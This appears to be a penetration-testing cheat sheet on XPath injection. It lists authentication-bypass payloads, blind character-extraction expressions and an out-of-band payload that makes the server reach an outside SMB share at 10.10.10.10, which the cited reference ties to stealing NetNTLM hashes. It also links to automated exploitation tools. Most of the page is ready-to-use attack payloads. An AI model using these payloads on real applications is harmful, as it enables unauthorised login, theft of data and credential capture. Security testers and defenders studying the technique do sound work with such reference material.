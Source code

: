 +++
title = "XPATH Injection"
date = '2022-10-16'
description = 'All about XPATH injection techniques, methods, payloads, how/why/when they work.'
include_toc = 'true'
+++

# XPATH injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.


## Exploitation

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c
```

## Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```
2. Extract a character
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

## Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## Tools

- [xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

## References

* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
